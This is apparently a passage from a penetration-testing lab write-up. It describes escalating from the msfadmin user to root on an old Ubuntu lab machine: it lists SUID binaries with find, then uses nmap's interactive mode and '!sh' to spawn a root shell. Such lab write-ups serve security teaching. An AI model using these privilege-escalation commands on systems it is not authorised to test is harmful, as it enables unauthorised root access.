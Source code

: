 ##  Phase 3: Privilege Escalation

### 🎯 Objective
Escalate privileges from the msfadmin user to root by exploiting misconfigured SUID binaries.

---

### 🧰 Tools & Resources
- **Access Level**: SSH shell as msfadmin
- **Tool Used**: Built-in Linux commands
- **Target OS**: Ubuntu 8.04 (Linux Kernel 2.6.X)
- **Focus**: SUID binaries

---

### 🧪 Steps Taken
#### 1. Identified SUID Binaries
**Command:**
```bash
find / -perm -4000 2>/dev/null
```
Findings:
- /usr/bin/nmap
- /usr/bin/passwd
- /usr/bin/chsh
- /usr/bin/sudo
- (Full list in Phase 2 Output of SUID scan)

#### 2. Tested Exploitable SUID Binary: nmap
Older versions of nmap support an interactive shell mode that can be abused.

**Command:**
```bash
/usr/bin/nmap --interactive
#once you see 'nmap>' type:
!sh
#Then verify with: 
whoami
id
```
### 📸 Screenshot: Terminal showing root shell access
![Escalate](images/escalate.PNG)
